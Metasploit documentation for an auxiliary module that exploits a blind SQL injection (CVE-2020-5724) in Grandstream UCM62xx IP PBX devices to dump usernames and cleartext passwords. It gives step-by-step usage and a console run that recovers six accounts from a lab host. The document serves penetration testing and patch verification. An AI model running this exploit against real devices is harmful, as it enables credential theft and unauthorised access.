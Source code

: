 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attack can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been succesfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of usernames and passwords

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### ID_SCAN

Indicates the number of user ids to scan for. The module starts by scanning the
database for valid user ids. The ids are sequential starting at 0. The default
scans the first 30 ids.

## Scenarios

### Grandstream UCM6202 IP PBX fimrware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ID_SCAN    30               yes       The number of initial user ids to scan
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > run

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found 6 valid user ids
[*] Found username: admin
[*] Found password: cheesed00dle
[*] Found username: 1000
[*] Found password: gZ15S8O8U5S72oli
[*] Found username: 1001
[*] Found password: qK6uRxwC
[*] Found username: 1002
[*] Found password: aP9ux515W7p5U
[*] Found username: 1003
[*] Found password: pM6mo!E8u37k
[*] Found username: 1004
[*] Found password: mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > 
```
